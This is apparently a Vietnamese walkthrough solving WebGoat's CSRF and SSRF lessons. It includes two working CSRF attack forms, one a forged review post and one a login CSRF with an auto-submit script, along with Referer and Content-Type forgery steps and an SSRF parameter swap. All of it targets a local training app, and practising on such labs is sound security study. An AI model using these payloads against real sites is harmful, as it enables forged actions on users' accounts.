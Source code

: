 # (A8:2013) Request Forgeries

## Cross-Site Request Forgeries

### 3. Basic Get CSRF Exercise

Thay vì dựng một web server để chuyển hướng thì mình bắt request và chỉnh lại phần `Referer` trong header.

![16](images/16.png)

Nhập số ở phần `flag` vào là xong.

### 4. Post a review on someone else’s behalf

Copy phần code ủa button `Sumbmit review` sửa lại attribute `action` và lưu lại sau đó mở bằng browser nhập input và bấm submit hehe. Lưu ý phần `reviewsStars` phải là số nếu không sẽ bị lỗi.

```html
<form class="attack-form" accept-charset="UNKNOWN" id="csrf-review" method="POST" name="review-form" successcallback="" action="http://127.0.0.1:8080/WebGoat/csrf/review">
    <input class="form-control" id="reviewText" name="reviewText" placeholder="Add a Review" type="text">
    <input class="form-control" id="reviewStars" name="stars" type="text">
    <input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
    <input type="submit" name="submit" value="Submit review">
</form>
```

Câu này cũng có thể solve bằng cách sửa `Referer` như câu 3.

### 7. CSRF and content-type

Đổi `Referer` và chỉnh phần `Content-Type` thành `text/plain`.

![17](images/17.png)


### 8. Login CSRF attack

Tạo một tài khoản mới với prefix `csrf-` và tạo một trang HTML như sau:

```html
<form action="http://localhost:8080/WebGoat/login" method="POST" style="width: 200px;">
    <input type="hidden" name="username" value="csrf-woanmeo11">
    <input type="hidden" name="password" value="123456">
    <button type="submit">Sign in</button>
</form>
<script>document.login.submit()</script>
```

Bấm vào nút submit khi dó mình sẽ login dưới tài khoản `csrf-woanmeo11`, sau đó tìm nút solve tại lession bấm vào là xong.


## Server-Side Request Forgery

### 2. Find and modify the request to display Jerry

Bắt request bằng burpsuite và đổi từ `tom` thành `jerry`.

![18](images/18.png)

### 3. Change the request so the server gets information from http://ifconfig.pro

Thay param `url=http://ifconfig.pro`.

![19](images/19.png)